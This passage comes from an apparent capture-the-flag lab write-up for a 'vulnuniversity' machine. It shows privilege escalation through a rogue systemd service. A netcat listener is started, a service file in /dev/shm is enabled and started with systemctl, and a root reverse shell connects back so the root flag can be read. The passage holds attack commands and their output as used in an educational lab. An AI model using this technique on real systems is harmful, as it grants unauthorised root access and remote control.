 <br />
Start a listener that listens on port 9999.

{% raw %}
```bash 
┌──(sec㉿kali)-[~]
└─$ nc -nlvp 9999                                       
listening on [any] 9999 ...
```
{% endraw %}

<br />
Use systemctl to enable and start the new root.service.

{% raw %}
```bash 
www-data@vulnuniversity:/dev/shm$ /bin/systemctl enable /dev/shm/root.service
/bin/systemctl enable /dev/shm/root.service
Created symlink from /etc/systemd/system/multi-user.target.wants/root.service to /dev/shm/root.service.
Created symlink from /etc/systemd/system/root.service to /dev/shm/root.service.
www-data@vulnuniversity:/dev/shm$ /bin/systemctl start root  
/bin/systemctl start root
```
{% endraw %}

<br />
Check the listener and catch the shell.

{% raw %}
```bash 
┌──(sec㉿kali)-[~]
└─$ nc -nlvp 9999                                       
listening on [any] 9999 ...
connect to [10.4.119.29] from (UNKNOWN) [10.10.207.42] 42488
bash: cannot set terminal process group (2059): Inappropriate ioctl for device
bash: no job control in this shell
root@vulnuniversity:/#
```
{% endraw %}

<br />
Get the root.txt flag.txt.  Run ifconfig to complete the trophy.

{% raw %}
```bash 
root@vulnuniversity:/# cat /root/root.txt
cat /root/root.txt
<redacted>
root@vulnuniversity:/# ifconfig
ifconfig
eth0      Link encap:Ethernet  HWaddr 02:ab:3b:49:61:43  
          inet addr:10.10.207.42  Bcast:10.10.255.255  Mask:255.255.0.0
          inet6 addr: fe80::ab:3bff:fe49:6143/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:9001  Metric:1
          RX packets:9430 errors:0 dropped:0 overruns:0 frame:0
          TX packets:8731 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:921735 (921.7 KB)  TX bytes:8779920 (8.7 MB)

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:751 errors:0 dropped:0 overruns:0 frame:0
          TX packets:751 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1 
          RX bytes:69416 (69.4 KB)  TX bytes:69416 (69.4 KB)
```